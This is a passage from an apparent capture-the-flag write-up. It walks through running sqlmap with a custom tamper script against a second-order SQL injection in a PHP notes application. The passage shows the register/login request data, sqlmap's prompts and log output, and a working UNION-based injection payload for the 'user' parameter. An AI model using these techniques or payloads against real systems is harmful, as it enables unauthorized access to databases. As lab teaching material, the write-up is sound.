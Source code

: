     user=aaaaaabcddddd&pass=df&login=Login
    

This gets another ‘Wrong username or password’, and it’s immediately followed
by a second order request to `/notes.php`, which gets 302ed to `/index.php`.

As `sqlmap` moves into it’s next phase, this time it starts with the tamper
script, so we see a POST to `/register.php` with data
`register=Register&user=aaaaaabcddddd.%27.%22%29%28%2C..%28&pass=df`. The
response is a message that the user has been created.

Then the script prompts:

    
    
    you provided a HTTP Cookie header value. The target URL provided its own cookies within the HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n]
    

Queries are going to be a series of 1) POST to `/register.php`, 2) POST to
`/index.php`, 3) GET to `/notes.php`. If we say `Y` here, we’ll try to set a
cookie at 1), but then the server will set a new cookie at 2), and that will
overwrite the first one. If we say `n`, then the cookie set in 1) will carry
though all three requests. Either is actually fine, as long as we’ve got the
username and password the same in 1) and 2). We’ll say `n`. Our tamper script
is setting a cookie. But the login page may also set a cookie. We don’t want
to merge. We want ours to be the only PHPSESSID, so we’ll say no.

`ssqlmap` continues to make 25 queries (each with 3 requests) to the site:

    
    
    [05:19:17] [INFO] heuristic (basic) test shows that POST parameter 'user' might be injectable
    [05:19:18] [INFO] testing for SQL injection on POST parameter 'user'
    [05:19:18] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
    [05:19:21] [WARNING] reflective value(s) found and filtering out
    [05:19:32] [INFO] target URL appears to be UNION injectable with 2 columns
    [05:19:33] [INFO] POST parameter 'user' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
    [05:19:33] [INFO] checking if the injection point on POST parameter 'user' is a false positive
    POST parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
    

Having found user vulnerable, and having no others to check, we’ll say `N`. We
get the following summary:

    
    
    POST parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
    sqlmap identified the following injection point(s) with a total of 21 HTTP(s) requests:
    ---
    Parameter: user (POST)
        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: user=aaaaaaaaabcddddd') UNION ALL SELECT CONCAT(0x716a627a71,0x786d534f4d5846644173476c53616972434878705241514d437059444743677872664f6257515a57,0x716a767071),NULL-- NdDm&pass=df&login=Login
    ---
    [05:23:48] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
    